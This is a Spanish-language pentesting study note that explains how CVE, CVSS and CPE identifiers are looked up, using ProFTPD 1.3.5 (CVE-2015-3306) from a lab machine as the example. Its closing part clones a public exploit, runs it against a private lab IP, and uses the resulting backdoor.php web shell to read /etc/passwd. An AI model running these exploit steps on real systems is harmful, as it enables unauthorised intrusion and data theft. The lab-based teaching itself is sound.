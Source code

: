 ```yaml
---
icon: memo-pad
---
```


# CVE, CVSS, CPE - Common Vulnerabilities and Exposures

Hay una pagina bastante famosa la cual recopila todas las vulnerabilidades que vayan exsistiendo y les asigna un numero, por lo que este numero sera el identificativo a dicha vulnerabilidad, todo esto se lo proporciona la empresa `mitre` cada vulnerabilidad que vaya saliendo se va implementando en esta base de datos:

URL = [Pagina CVE BB.DD.](https://cve.mitre.org)

Si nosotros buscamos una vulnerabilidad que sospechamos que puede ser vulnerable, podremos buscarlo en el boton de `Search CVE`, por ejemplo si buscamos una version de `FTP` que encontramos en nuestras maquinas de prueba en mi caso la de `Linux - Ubuntu` vimos que era un `ProFTPD 1.3.5`, por lo que si buscamos eso veremos que esta asignado a un `CVE-2015-3306` por lo que tiene una vulnerabilidad que se indica con ese numero y si te metes en dicha vulnerabilidad podremos ver la descripcion de en que consiste esa vulnerabilidad.

Despues te muestra las referencias donde puede encontrar mas informacion sobre esa vulnerabilidad y como se podria aprovechar para poder ser explotada.

Con este identificador que obtenemos, lo que podemos hacer es buscarlo en `google` con el identificador e investigar herramientas que esten creadas en `GitHub` con el lenguaje de programacion que queramos buscar para poder explotar estas vulnerabilidades.

Por ejemplo de esta vulnerabilidad si se busca un poco, podremos encontrar el siguiente repositorio que esta mas actual y asi nos olvidamos de algun posible fallo a la hora de explotarlo con uno mas desactualizado.

URL = [Pagina Exploit CVE-2015-3306](https://github.com/t0kx/exploit-CVE-2015-3306/tree/master)

Si por ejemplo nosotros queremos identificar que nivel de peligrosidad tiene esta vulnerabilidad, podremos hacerlo consultando la siguiente pagina:

URL = [Pagina CVSS Nivel de peligro de un CVE](https://nvd.nist.gov/vuln/search)

Si buscamos la vulnerabilidad que encontramos anteriormente, podremos ver que nos la encuentra y nos indica que es bastante alta de peligro teniendo un `10` sobre `10`:

<figure><img src="../../../.gitbook/assets/image (29) (1).png" alt=""><figcaption></figcaption></figure>

Ya que con esta vulnerabilidad puede leer o copiar cualquier fichero del sistema, por lo que es bastante alta.

Cada una de las versiones de software tiene un `CPE` asociado, por lo que cuando sale una vulnerabilidad rapidamente podamos asociarlas con todas las versiones de ese software que se ven afectadas por esta vulnerabilidad, en esta pagina mas abajo se ven los `CPE` que van asociados a esta vulnerabilidad por los que se le puede identificar.

<figure><img src="../../../.gitbook/assets/image (30) (1).png" alt=""><figcaption></figcaption></figure>

Hay otra pagina que te engloba todo esto, por la que se puede buscar por el nombre del servicio y version, esta pagina te muestra los resultados con su `CVE` asociado y a parte tambien te muestra el riesgo de dicha vulnerabilidad, te muestra tambien el `PCE` mostrandotelo todo por lo que es mas sencillo de ver:

URL = [Pagina CVE Details](https://www.cvedetails.com)

Y con la vulnerabilidad que hemos encontrado podriamos aprovecharla en la fase de explotacion, que seria algo asi:

```shell
git clone https://github.com/t0kx/exploit-CVE-2015-3306.git
cd exploit-CVE-2015-3306/
```

```shell
./exploit.py --host 192.168.16.129 --port 21 --path /var/www/html
```

Info:

```
[+] CVE-2015-3306 exploit by t0kx
[+] Exploiting 192.168.16.129:21
[+] Target exploited, acessing shell at http://192.168.16.129/backdoor.php
[+] Running whoami: www-data
[+] Done
```

Y si nos vamos al navegador y ponemos lo siguiente:

```
URL = http://192.168.16.129/backdoor.php?cmd=cat /etc/passwd
```

Podremos ver que nos vuelca toda la informacion del archivo `passwd` y mucho mas que podremos hacer, pero esto es para la fase de explotacion.
